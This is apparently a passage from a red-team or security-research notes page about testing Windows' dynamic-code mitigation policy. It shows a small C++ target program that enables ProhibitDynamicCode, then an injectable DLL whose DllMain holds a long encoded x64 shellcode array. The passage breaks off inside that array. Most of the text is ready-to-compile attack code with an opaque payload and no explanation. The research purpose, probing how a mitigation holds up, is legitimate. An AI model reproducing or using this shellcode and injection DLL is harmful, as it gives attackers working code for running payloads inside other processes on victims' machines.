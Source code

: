 ## Code

{% tabs %}
{% tab title="mitigationpolicy.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
	dcp.ProhibitDynamicCode = 1;
	SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));

	while (true)
	{
		Sleep(1000 * 2);
	}

	return 0;
}
```
{% endtab %}

{% tab title="injectorDllShellcode.dll" %}
```cpp
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
		case DLL_PROCESS_ATTACH:
		{
			unsigned char shellcode[] =
				"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
				"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
				"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
				"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
				"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
				"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
				"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
				"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
				"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
				"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
				"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
				"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
				"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
				"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
				"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
				"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
				"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
				"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
				"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
				"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
				"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
				"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
				"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
				"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
				"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
				"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
				"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
				"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
```